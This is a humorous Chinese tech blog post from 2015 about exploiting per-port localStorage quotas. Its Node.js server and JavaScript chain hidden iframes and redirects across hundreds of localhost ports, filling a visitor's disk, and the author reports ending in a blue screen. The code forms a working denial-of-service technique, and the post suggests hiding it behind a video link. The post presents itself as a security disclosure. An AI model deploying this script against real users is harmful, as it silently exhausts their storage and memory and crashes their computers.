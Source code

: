 ```yaml
---
layout: post
title: "作为一个前端，可以如何机智地弄坏一台电脑？"
date: 2015-07-06 22:30
comments: true
tags: 
	- 安全 
	- js
	- 黑科技
---
```


有人说，前端的界限就在浏览器那儿。

无论你触发了多少bug，最多导致浏览器崩溃，对系统影响不到哪去。
这就像二次元各种炫酷的毁灭世界，都不会导致三次元的世界末日。
然而，作为一个前端，我发现是有方式打开次元大门的…

这个实验脑洞较大，动机无聊，但某种意义上反映了一些**安全问题**。
想象一下，有天你在家里上网，吃着火锅还唱着歌，**点开一个链接，电脑突然就蓝屏了**！想想还真有点小激动。
<!-- more -->

###起因

故事得从localStorage说起。

html5的本地存储，相信大家都不陌生。将数据以二进制文件形式存储到本地，在当前应用得非常广泛。
windows下的chrome，localStorage存储于``C:\Users\xxx\AppData\Local\Google\Chrome\User Data\Default\Local Storage``文件夹中。但如果任由网页无限写文件，对用户硬盘的伤害可想而知，因而浏览器对其做了大小限制。

对于一个域名+端口，PC侧的上限是5M-10M之间，移动侧是则不大于2.5M。

那么问题就变成：**这样的限制足够保护用户硬盘了吗**？

###关键

关键的问题在于，这一限制，针对的是一个``域名+端口``。
也就是说，你访问``同一个域名的不同端口``，它们的localStorage并无关联，是分开存储的。

我用node简单地开启了服务器，这时，用户访问``http://127.0.0.1:1000``到``http://127.0.0.1:1099``这100个端口，会请求到同一个页面：``index.html``：

```
var http = require('http');
var fs = require('fs');

//100个端口
for(var port = 1000; port< 1100; port++){
  http.createServer(function (request, response) {
    //请忽略这种循环读文件的方式，只为了简便
    fs.readFile('./index.html', function(err, content){
      if(err) {
      } else {
        response.writeHead(200, { 'Content-Type' : 'text/html; charset=UTF-8' });
        response.write(content);
        response.end();
      }
    });
  }).listen(port, '127.0.0.1');
}
```

当然，这个index.html里涉及了localStorage写操作。

```
var s = "";
//慢慢来，别写太大了，好害怕…
for(var i=0; i< 3 * 1024 * 1024; i++){
  s += "0";
}
localStorage.setItem("testData", s);
```

我试着用浏览器分别访问了几个端口，结果是分开存储。一切跟剧本一样。

###自动遍历

但这种程度还不够。
如果要实验变得更好（xie）玩（e）一些，问题就变成如何``让用户自动遍历这些端口``？

iframe是个好的尝试。
只要一打开``http://127.0.0.1: 1000``，页面的脚步就会创建一个iframe，去请求``http://127.0.0.1: 1001``，一直循环下去。

```
var Main = (function(){
  var _key = "testData";
  var _max = 1100; //最大限制
  return {
    init: function(){
      //慢慢来，别写太大了，好害怕…
      var s = "";
      for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
      }
      localStorage.setItem(_key, s);

      var port = parseInt(location.port)+1;
      if(port > _max) return;

      //新添加iframe
      var url = "http://127.0.0.1:" + port;
      var $iframe = document.createElement("iframe");
      $iframe.src = url;
      document.getElementsByTagName("body")[0].appendChild($iframe);
    }
  }
})();
```

当然iframe我们还可以设置为不可见，以掩盖这种不厚道的行为…
比方说，有人发给你一个链接，你打开后发现是个视频，而你根本注意不到背后的脚本，在视频播放的几分钟里，快要把你的C盘写满。

然后我就看到请求如潮水渐涨：
![](/assets/blogImg/localstorage1.png)

但是，请求到1081端口，最新的chrome就崩溃掉了…原来iframe嵌套太多，已经到达了浏览器的极限。

###防止浏览器崩溃

C盘还未撑满，同志还需努力。怎么办？

突然想到，到达iframe极限之前，我们可以重定向啊。
每访问50个端口，就使用``window.location.href``重定向一次，去确保浏览器不崩溃。

```
var Main = (function(){
  var _key = "testData";
  var _max = 1200; //最大限制
  var _jumpSpace = 50; //为避免iframe过多导致浏览器crash，每50个执行跳转

  return {
    init: function(){
      //慢慢来，别写太大了，好害怕…
      var s = "";
      for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
      }
      localStorage.setItem(_key, s);

      var port = parseInt(location.port)+1;
      if(port > _max) return;

      if(port % _jumpSpace == 0){
        //每50个，重定向一次
        window.location.href = url;
      }else{
        //新添加iframe
        var $iframe = document.createElement("iframe");
        $iframe.src = url;
        document.getElementsByTagName("body")[0].appendChild($iframe);
      }
    }
  }
})();
```

事实证明，这种蛮拼的方法的确可行。

至此，只要访问``http://127.0.0.1: 1000``，就会往Local Storage文件夹里写入近500M无用数据：
![](/assets/blogImg/localstorage3.png)

里面的数据是这样的：
![](/assets/blogImg/localstorage2.png)


###继续实验的黑科技

算了下我的C盘还有空间嘛，那就把端口数量从100增长到200个。
结果是这样的，到达了1.17G大小。
![](/assets/blogImg/localstorage4.png)

在后续的实验中，我就慢慢的把端口数量与存储的数据调大。

电脑也运行得越来越慢。这是为什么呢？

我观察到，有时候执行``localStorage.setItem()``后，在文件夹里不一定立即能看到数据文件。
怀疑这些数据会被chrome先放到内存里，以避免重复读写带来的消耗，在空闲或关闭的时机，再写进硬盘里。

但此时，浏览器已经影响到系统了。它处于一种“不会崩溃”，但“因为占用了许多内存，已经妨碍用户电脑的正常使用”的状态。
即使用户关闭了浏览器窗口，也不会很快恢复。要知道读写任务并不是随窗口关闭而终止的，否则浏览器会丢失数据。

遭遇黑科技的人们能做的只有：
1. 等待；
2. 用任务管理器关掉chrome进程，再等待；
3. 相信并尝试“重启电脑解决90%电脑问题”的科学论断

可以说，浏览器的内心几乎是崩溃的。

###最后

最后，还是得用严肃脸告诫一下：害人之心不可无。
本实验，从一开始就是怀揣着将``安全问题上交给国家的初衷``去做的（是的就是这么纯粹）。

后续，看着C盘还有2G空间，我又把端口增长到2000个，试下会发生什么。
由于请求过多，需要一定时间，我就去做别的事情了。
回来后发现房间安静祥和，美轮美奂，一片蓝光，像是加了特技。

![](/assets/blogImg/localstorage5.png)

那么问题来了，计算机修理哪家强？
有点急…

